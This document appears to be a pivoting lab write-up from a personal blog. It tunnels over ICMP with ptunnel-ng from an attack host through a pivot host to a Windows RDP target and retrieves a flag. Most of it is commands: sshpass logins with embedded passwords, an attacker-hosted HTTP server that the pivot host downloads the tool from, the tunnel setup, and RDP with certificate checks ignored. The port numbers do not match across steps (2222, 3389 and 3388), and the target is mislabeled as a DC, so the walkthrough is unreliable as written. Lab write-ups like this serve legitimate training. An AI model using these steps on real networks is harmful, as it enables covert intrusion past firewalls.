 ```yaml
---
title: ICMP Tunneling with ptunnel-ng to Access Internal Windows Host
author: saramazal
date: 2025-06-18
categories: [Pivoting]
tags: [pivoting, tunelling, ptunnel-ng, rce, xfreerdp, ssh, sshpass, scp, python server,]     # TAG names should always be lowercase
img_path: /images/covers
image:
  path: /images/covers/pivoting.jpg
---
```


# 🛰️ ICMP Tunneling with ptunnel-ng & SOCKS: Pivot to WinTarget

In this lab, we demonstrate how to use `ptunnel-ng` to establish an ICMP-based tunnel from an **Attack Host** to a **Pivot Host**, and then pivot further to a **Windows Target** to retrieve a flag.

---

## 🔧 Environment Setup

```bash
# Set Environment Variables
export AttackHost=10.10.xx.xx
export PivotHost=10.129.xx.xx
export WinTargetIp=172.16.xx.xx

export username=ubuntu
export passwd='pivotpass123'

export winuser=winuser
export winpasswd='pass@123'
````

---

## 🐚 Access Pivot Host

```bash
# Using sshpass to connect
sshpass -p "$passwd" ssh $username@$PivotHost
```

---

## 🛠️ Clone & Build ptunnel-ng

```bash
# On Attack Host
git clone https://github.com/utoni/ptunnel-ng.git
cd ptunnel-ng/
sudo apt install automake autoconf -y

# Patch autogen.sh for static build
sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j${BUILDJOBS:-4} all/' autogen.sh

./autogen.sh
```

---

## 📦 Transfer to Pivot Host

```bash
# Serve files from Attack Host
python3 -m http.server 8123

# On Pivot Host (via SSH)
wget http://$AttackHost:8123/ptunnel-ng.tar.gz
tar -xvzf ptunnel-ng.tar.gz
```

Or using SCP:

```bash
scp -r ptunnel-ng $username@$PivotHost:~/
```

---

## 📡 Start ptunnel-ng Server on Pivot

```bash
# On Pivot Host
cd ~/ptunnel-ng/src
sudo ./ptunnel-ng -r$WinTargetIp -R3389
```

---

## 🔁 Start ptunnel-ng Client on Attack Host

```bash
# On Attack Host
cd ptunnel-ng/src
sudo ./ptunnel-ng -p$PivotHost -l2222 -r$WinTargetIp -R3389
```

---

## 🧠 Connect via SSH or SOCKS

```bash
# Option 1: Direct tunnel to pivot (useful for shell)
ssh -p2222 -l$username 127.0.0.1

# Option 2: Dynamic SOCKS proxy
ssh -D 9050 -p2222 -l$username 127.0.0.1
```

---

## 🖥️ Access WinTarget via RDP

```bash
xfreerdp /v:127.0.0.1:3388 /u:$winuser /p:$winpasswd
```

If prompted with cert warnings, ignore them using:

```bash
xfreerdp /v:127.0.0.1:3388 /u:$winuser /p:$winpasswd /cert-ignore
```

---

## 🏁 Retrieve the Flag

Once connected to the desktop or through shell access, retrieve:

```
type C:\Users\winuser\Downloads\flag.txt
```

---

## ✅ Success!

You’ve successfully tunneled through ICMP from your Attack Box to the DC, bypassing traditional firewall rules. This technique is stealthy and powerful in restricted environments.

---

*Stay sneaky, stay ethical.* 🕶️

**~ Maz4l 🤺**